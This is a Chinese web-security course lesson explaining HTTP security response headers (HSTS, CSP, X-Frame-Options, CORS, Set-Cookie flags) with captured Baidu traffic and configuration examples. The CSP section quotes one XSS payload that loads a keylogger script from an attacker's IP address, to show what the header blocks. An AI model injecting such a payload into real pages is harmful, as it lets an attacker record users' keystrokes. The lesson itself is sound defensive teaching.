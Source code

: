 # 30｜HTTP Header安全标志：协议级别的安全支持

    你好，我是王昊天。

前几天，我在路上遇到了一个外国友人，他用英语问我如何前往上海火车站。我一时没缓过神，直接用中文回答他，乘坐一号线就可以到达。看着他迷茫的眼神，我反应了过来，接着赶忙用英语来回答他。还好我英文不错，他听懂了，在对我说了声谢谢后就走上了一号线。

事后，我反思了一下，我们人和人之间的沟通，其实都会按照一个隐形的协议去进行，例如我会中文和英文，外国友人却只会英文，所以我们就需要用英文才能进行沟通。

那么你知道我们是如何与Web应用进行有效通信的吗？事实上，我们与Web应用的交互也离不开一个广泛运用的协议—— HTTP协议。这个协议规定了，Web客户端如何从Web服务器请求Web页面，以及服务器如何把Web页面传送给客户端。

除了这些广为人知的作用，HTTP协议还能对Web应用提供一些安全支持。这一讲，我们就一起学习下HTTP协议对于安全有哪些支持。

## HTTP协议

首先，我们需要搞清楚什么是HTTP协议。

HTTP协议，即超文本传输协议Hyper Text Transfer Protocol。它是一个简单的请求-响应协议，且通常运行在TCP协议之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。这个协议是早期Web成功的有功之臣，因为**它使开发和部署非常得直截了当**。

![图片](https://static001.geekbang.org/resource/image/45/91/45e83aa517d5cf1c279f10091cd32c91.jpg?wh=640x480)

在了解完HTTP协议的大致功能后，让我们一起看一个示例，了解HTTP协议所规定的消息样式。

这是我访问百度页面时，用BurpSuite捕获到的报文：

```plain
GET / HTTP/1.1
Host: www.baidu.com
Cookie: BIDUPSID=D6FC148CB0142694E6019498ECE6FA8F; PSTM=1644916942; 
...
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

我们可以看到，这是一个请求报文，报文中第一行内容为HTTP请求的方式，以及所用到的HTTP协议版本。其它行都是定义的HTTP请求头信息，即HTTP Request Header信息。

将请求报文发出后，我们会收到Web应用返回的响应报文：

```plain
HTTP/1.1 200 OK
Bdpagetype: 1
Bdqid: 0xeafae0b1000f161a
Cache-Control: private
Content-Type: text/html;charset=utf-8
Date: Tue, 15 Feb 2022 12:35:42 GMT
Expires: Tue, 15 Feb 2022 12:35:31 GMT
Server: BWS/1.1
Set-Cookie: BDSVRTM=0; path=/
Set-Cookie: BD_HOME=1; path=/
Set-Cookie: H_PS_PSSID=35410_35104_31254_34584_35491_35872_35796_35324_26350_35746; path=/; domain=.baidu.com
Strict-Transport-Security: max-age=172800
...
<!DOCTYPE html><!--STATUS OK-->
<html>...</html>

```

我们可以发现，响应报文的第一行也是所使用的HTTP协议版本信息，后面会跟上响应的状态码。下面几行，会包含一些HTTP Response Header即HTTP响应头信息。最后，**从<html>标签开始，是响应页面的内容。**

到这里，我们已经知道了HTTP协议的作用，并且对HTTP请求报文和响应报文都有了一定的了解。接下来，让我们来学习HTTP Header中的安全标志，了解HTTP协议为了保证Web应用的安全做出了哪些应对措施。

## HTTP Header安全标志

HTTP协议可以分为请求与响应两部分，所以HTTP Header按照功能也可以分为HTTP请求头以及HTTP响应头。

其中请求头包含了有关要获取资源的客户端信息，而响应头则包含一些有关响应的附加信息。因此，有关安全的HTTP头，都被设在HTTP响应标头中。下面，让我们一起看几个典型的HTTP安全响应头，它们都是用于定义是否应在Web浏览器上激活一些安全预防措施。

### HSTS标志

HSTS标头即HTTP Strict Transport Security的简称，**它是Web应用使用最广泛的安全标志之一**。这个标志会告诉浏览器只能通过HTTPS协议访问当前资源，而不可以使用HTTP访问。

这里，我们来了解下什么是HTTPS协议。

这还要从HTTP协议说起，虽然HTTP协议使用极为广泛，但是却存在不小的安全缺陷，主要是其**数据的明文传送和消息完整性检测的缺乏**，而这两点恰好是网络支付等新兴应用中安全方面最需要关注的。

关于HTTP的明文数据传输，最常用的攻击手法就是**网络嗅探**。攻击者可以试图从传输过程当中分析出敏感的数据，例如从管理员对Web程序后台的登录过程中，攻击者可以从中获取网站的账号密码，从而获取网站管理权限。

另外，HTTP在传输客户端请求和服务端响应时，唯一的数据完整性检验就是在报文头部包含了本次传输数据的长度，而对内容是否被篡改不作确认。 因此攻击者可以轻易地发动中间人攻击，修改客户端和服务端传输的数据，甚至在传输数据中插入恶意代码只需要保证传输数据长度不变即可。

为了解决这个问题，HTTPS协议应运而生，它是由HTTP加上TLS/SSL协议构建的可进行加密传输、可检测消息完整性的网络协议。因此，当我们使用HTTPS访问一个页面时，会更有安全保障。

接下来，让我们通过一个示例，来体会HSTS标志的作用。

我们先使用HTTP协议访问百度，获取到如下报文：

![图片](https://static001.geekbang.org/resource/image/3d/e5/3dd1b273c62c68a4c00df7cf748501e5.png?wh=1596x1196)

从报文中，我们可以看到请求发出后，收到了响应302，这意味着需要进行跳转操作。从location信息中，我们发现它会跳转到百度的HTTPS服务。

![图片](https://static001.geekbang.org/resource/image/0e/56/0e00d79aa27dd50f285daf77a8774856.png?wh=1840x1222)

接着，我们果然看到一个发往https://www.baidu.com的请求报文，并且在请求报文中，配置了Strict-Transport-Security，并且给它赋值为max-age=172800，这意味着该配置的有效时间为172800秒，即48小时。

为了方便观察，我们清空HTTP history中的记录，再次用HTTP协议访问百度页面，获取到的记录如下：

![图片](https://static001.geekbang.org/resource/image/80/1d/8016539fbf1207c1e4b79bf485876d1d.png?wh=1500x1120)

可以看到我们的HTTP访问直接变为了更安全的HTTPS访问，这就是HSTS标志的作用。

到这里，我们已经学完了HTTP协议的第一个安全标志。接下来，让我们继续学习其他的安全标志。

### CSP标志

不知道你是否还记得CSP即Content-Security-Policy，我们在之前学习XSS攻击的防御时曾提到过这一防御方案。事实上，它也是一个HTTP安全响应头，我们可以利用它来定义页面可以加载哪些资源。

这么说可能有点抽象，下面让我们一起看一个示例，来帮助我们理解CSP的作用。

```plain
Content-Security-Policy: script-src 'self'

```

这是一个CSP标志配置示例，它的值为 `script-src 'self'`，这代表会对JavaScript代码的加载做一些限制，仅允许加载与Web页面相同来源的JavaScript代码。注意，**这里的相同来源指的是相同的协议、域名和端口。**

回顾我们用XSS攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的 `keylogger.js` 的内容，从而实现按键记录功能。

```javascript
<script%20src=http://192.168.3.193/keylogger.js></script>

```

可如果被攻击的Web应用添加了上述CSP策略，就会导致我们的JavaScript代码加载失败，从而无法实现我们的攻击行为。

下面，让我们继续学习X-Frame-Options安全标志的功能。

### X-Frame-Options标志

X-Frame-Options响应头也是一个重要的HTTP Header安全标志，它用来配置是否允许一个页面可在 <frame>、<iframe>、<embed> 或者 <object> 中展现设置的内容。

接下来，我们一起来看一个示例：

```plain
X-Frame-Options: DENY

```

在这个示例中，我们将它的值设为DENY，表示该页面不允许在frame等上述标签中展示任何内容。事实上，它还有两个可能取值SAMEORIGIN以及ALLOW-FROM uri。其中SAMEORIGIN代表仅允许在上述标签中展示与当前页面域名相同的内容，而ALLOW-FROM uri则代表仅允许在其中展示uri对应页面的内容。

还记得我们在XSS学习中，曾今利用XSS攻击实现了广告的植入操作，产生的效果如下图所示：

![图片](https://static001.geekbang.org/resource/image/60/81/605dcc52caa1ca45a6651cc185470081.png?wh=1269x686)

如果Web应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。

接下来，我们继续来学习另一个常用的HTTP协议响应头，即Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。

### Access-Control-Allow-Origin标志

Access-Control-Allow-Origin标志指定了该响应的资源是否被允许与给定的origin共享。

为了让你更好地理解，下面让我们一起来看一些示例：

```plain
Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone

```

它有两种配置方式，第一种将它的值设为\*，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的uri，这代表仅允许该域名访问当前响应的资源。因此，**Access-Control-Allow-Origin标志可以使网站之间安全地跨域获取资源。**

最后，我们来看一个相对熟悉一些的HTTP响应头Set-Cookie。

### Set-Cookie标志

在上一讲中，我们学习了保持登陆状态的认证，事实上，它就是通过Set-Cookie来实现的。

Set-Cookie标志不仅可以用来配置浏览器的Cookie信息，同时它还能对Cookie信息进行一些保护。下面，还是一起看一个示例：

```plain
Set-Cookie: <cookie-name>=<cookie-value>; Secure; HttpOnly

```

在这个示例中，我们写入了一个cookie的值，同时在后面加了两个配置项，Secure以及HttpOnly。其中Secure的作用是强制cookie只能在HTTPS环境下传递，而HttpOnly则可以禁止使用JavaScript去存取cookie。它们都可以有效地保护cookie信息，防止攻击者窃取cookie。

## 总结

在这一讲中，我们学习了HTTP Header对于Web提供的协议级别的安全支持。

首先，我们回顾了HTTP协议的内容，并对请求报文的格式以及响应报文的格式等基础知识进行了学习与回顾。

在学习基础知识的过程中，我们了解到在响应报文中，会存在一些HTTP Header信息。其中，有的HTTP Header内容可以对我们的Web应用进行保护。

最后我们对其中常用的五个典型HTTP Header进行了学习。它们分别为HSTS标志、CSP标志、X-Frame-Options标志、Access-Control-Allow-Origin标志以及Set-Cookie标志。在学习过程中，我们了解了它们的作用，并通过示例理解了它们的配置方式。

## 思考题

你知道还有哪些HTTP Header可以对Web应用提供安全支持吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
    
